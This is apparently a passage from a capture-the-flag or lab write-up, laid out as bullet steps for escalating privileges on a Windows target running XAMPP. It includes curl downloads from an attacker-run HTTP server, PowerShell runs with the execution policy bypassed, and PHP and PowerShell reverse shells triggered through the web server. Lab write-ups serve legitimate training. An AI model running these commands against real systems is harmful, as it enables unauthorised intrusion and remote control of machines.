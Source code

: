 <p>

- searched for <code>Windows Privilege Escalation Scanner</code><br>
- navigated to <code>https://github.com/itm4n/PrivescCheck</code><br>
- downloaded <code>PrivescCheck.ps1</code><br>
- set up an HTTP server<br>
- copied <code>PrivescCheck.ps1</code> to the Target executing: <code>curl http://xx.xxx.xxx.xx:8000/PrivescCheck.ps1 -o PrivescCheck.ps1</code><br>
- executed GitHub´s command line: <code>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"</code><br>
- it did not work<br>
- exited the session</p>

<br>

<img width="1118" height="75" alt="image" src="https://github.com/user-attachments/assets/c21921b1-6128-4a31-91d2-87e4e5f99b63" />

<br>
<br>

<img width="1301" height="184" alt="image" src="https://github.com/user-attachments/assets/db489732-8d4e-4e57-8a2d-59744ab8862a" />

<br>
<br>

<p>

- setup a listener<br>
- uploaded <code>powershell-reverse-shell.ps1</code> again<br>
- navigated to <code>C:\xampp\htdocs\uploads</code><br>
- executed: <code>powershell.exe</code><br>
- executed: <code>powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"</code><br>
- waited ...<br>
- identified status: <code>Vulnerable - High</code>, Name: <code>Apache 2.4</code>, ImagePath: <code>"C:\xampp\apache\bin\httpd.exe"</code><br><br><br>
- searched for <code>GitHub Windows PHP Reverse Shell</code><br>
- navigated to <code>https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php</code><br>
- downloaded <code>php_reverse_shell.php</code><br>
- updated the IP<br>
- executed: <code>curl http://xx.xxx.xxx.xx:8000/php_reverse_shell.php -o php_reverse_shell.php</code><br>
- setup a listener<br>
- navigated to <code>stealth.com:8080/php_reverse_shell.php</code></p>

<br>
<br>

<img width="1127" height="314" alt="image" src="https://github.com/user-attachments/assets/f77d442d-13e6-4e47-ac37-97dbe9cc9601" />

<br>
<br>

<img width="1310" height="399" alt="image" src="https://github.com/user-attachments/assets/e94b9e79-e56c-4e6b-b195-14b3598d6d59" />
